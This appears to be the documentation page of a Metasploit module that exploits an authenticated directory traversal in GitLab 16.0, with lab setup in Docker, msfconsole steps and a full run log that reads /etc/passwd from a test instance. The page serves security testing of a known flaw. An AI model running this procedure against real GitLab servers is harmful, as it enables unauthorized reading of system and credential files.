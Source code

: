 ## Vulnerable Application

GitLab version 16.0 contains an authenticated directory traversal for arbitrary file read as the `gitlab` user.
In order to exploit this vulnerability, a user must be able to create a project and groups.
When exploiting this vulnerability, a group (or subgroup under the group) must be created
for each level of the traversal. If the depth is 11 for the dir traversal, then a group
and 10 sub-groups will be created. Lastly a project is created for that subgroup.
With all these requirements satisfied a dummy file is uploaded, and the full
traversal is then executed. Cleanup is performed by deleting the first group which
cascades to deleting all other objects created.

Tested on a Docker image of GitLab 16.0

### Install

A Docker image is available:

```
sudo docker run --detach \
  --hostname gitlab.example.com \
  --publish 443:443 --publish 80:80 --publish 22:22 \
  --name gitlab \
  --restart always \
  --volume $GITLAB_HOME/config:/etc/gitlab \
  --volume $GITLAB_HOME/logs:/var/log/gitlab \
  --volume $GITLAB_HOME/data:/var/opt/gitlab \
  --shm-size 256m \
gitlab/gitlab-ee:16.0.0-ee.0 
```

To retrieve the default password:

```
sudo docker exec -it gitlab grep 'Password:' /etc/gitlab/initial_root_password
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/gitlab_authenticated_subgroups_file_read`
1. Do: `set rhosts [ip]`
1. Do: `set username [username]`
1. DO: `set password [password]`
1. Do: `run`
1. You should be able to read an arbitrary file.

## Options

### DEPTH

Depth for path traversal (also groups creation). 11 seems pretty safe but it may work with less. Defaults to `11`.

### FILE

File to read. Defaults to `/etc/passwd`

## Scenarios

### Docker GitLab 16.0

```
msf6 > use auxiliary/scanner/http/gitlab_subgroups_file_read
[*] Using auxiliary/scanner/http/gitlab_subgroups_file_read
msf6 auxiliary(scanner/http/gitlab_subgroups_file_read) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(scanner/http/gitlab_subgroups_file_read) > set username root
username => root
msf6 auxiliary(scanner/http/gitlab_subgroups_file_read) > set password r6eh7UfeWsEKuK4cJJP+dJ79X4xwmNMOHN6mBKSyd2s=
password => r6eh7UfeWsEKuK4cJJP+dJ79X4xwmNMOHN6mBKSyd2s=
msf6 auxiliary(scanner/http/gitlab_subgroups_file_read) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/gitlab_subgroups_file_read) > exploit

[+] CSRF Token: wYYZ0Q1TnrrZmqwpAk707emZcXsIlzMawZ7s-HycVHmo668JVMqDb-R8NCVTVEMNlDAWbrIwngXKSH2wWtURzQ
[*] Creating 11 groups
[*] Creating group: OqJVwVlC with parent id: 
[+] CSRF Token: 8X7OT15TxpI36rOIu-ghgVbodK8fRl4Lz-3fqaNH_MmYE3iXB8rbRwoMK4Tq8pZhK0ETuqXh8xTEO07hhQ65fQ
[*] Creating group: 5hYTGpp8 with parent id: 2
[+] CSRF Token: PNnNU0R5iB-57xVW20dBD0FKfb1yMw15tjvHCZICyG9VtHuLHeCVyoQJjVqKXfbvPOMaqMiUoGa97VZBtEuN2w
[*] Creating group: XlpSkZKQ with parent id: 3
[+] CSRF Token: nS0eZJb7gVQM6-HYRPpj14MBhIq4WoObZOFASPC_F1b0QKi8z2KcgTENedQV4NQ3_qjjnwL9LoRvN9EA1vZS4g
[*] Creating group: KQCk8adK with parent id: 4
[+] CSRF Token: yr8EaL1nQdm9aIhpGca1Ay8u2m3oLGqAk_BO23hw02Sj0rKw5P5cDICOEGVI3ALjUoe9eFKLx5-YJt-TXjmW0A
[*] Creating group: xg9hUYPo with parent id: 5
[+] CSRF Token: 5wYo0n-rkMKFMRGlFyjN6knw71WIBDIUUjyLLDSE9UmOa54KJjKNF7jXialGMnoKNFmIQDKjnwtZ6hpkEs2w_Q
[*] Creating group: cNrX6LHf with parent id: 6
[+] CSRF Token: Z4IipgGhLQixQu8cbyNznk2pIj0udxMCgGKHaEzqkw4O75R-WDgw3YykdxA-OcR-MABFKJTQvh2LtBYgaqPWug
[*] Creating group: Mg4MESRy with parent id: 7
[+] CSRF Token: 4g209zNkQLg2Mf4RPMsSOjIGD-f2jaJrP_Fa4iYQRLaLYAIvav1dbQvXZh1t0aXaT69o8kwqD3Q0J8uqAFkBAg
[*] Creating group: 7b2cIgyZ with parent id: 8
[+] CSRF Token: MbKcsl5RuiynfU8JyJ1iT_mBKKqfAWpuM7LEVjTTmPBY3ypqB8in-Zqb1wWZh9WvhChPvyWmx3E4ZFUeEprdRA
[*] Creating group: EDkbB7Mw with parent id: 9
[+] CSRF Token: FbcBF0FcEy1vhn-ahOLHgz5wPx952kmwDNT2Qfte-Ud82rfPGMUO-FJg55bV-HBjQ9lYCsN95K8HAmcJ3Re88w
[*] Creating group: 4L2kbTKx with parent id: 10
[+] CSRF Token: iSsK-buEQzOnykZ_DmtRo2_4RV6HSix8nLEpDN9WeSjgRrwh4h1e5pos3nNfceZDElEiSz3tgWOXZ7hE-R88nA
[*] Creating group: UrW6NUYW with parent id: 11
[+] CSRF Token: _Md66xoUbGn3lOKAkgDR9p30KKPH6sDEBckrOfE8LNaVqswzQ41xvMpyeozDGmYW4F1Ptn1NbdsOH7px13VpYg
[*] Creating project 8tXCf26j
[*] Creating a dummy file in project
[*] Executing dir traversal
[+] root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-www:x:999:999::/var/opt/gitlab/nginx:/bin/false
gitlab-redis:x:997:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
mattermost:x:994:994::/var/opt/gitlab/mattermost:/bin/sh
registry:x:993:993::/var/opt/gitlab/registry:/bin/sh
gitlab-prometheus:x:992:992::/var/opt/gitlab/prometheus:/bin/sh
gitlab-consul:x:991:991::/var/opt/gitlab/consul:/bin/sh

[+] /etc/passwd saved to /root/.msf4/loot/20230529000533_default_127.0.0.1_Gitlabfile_212326.txt
[*] Deleting group OqJVwVlC
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
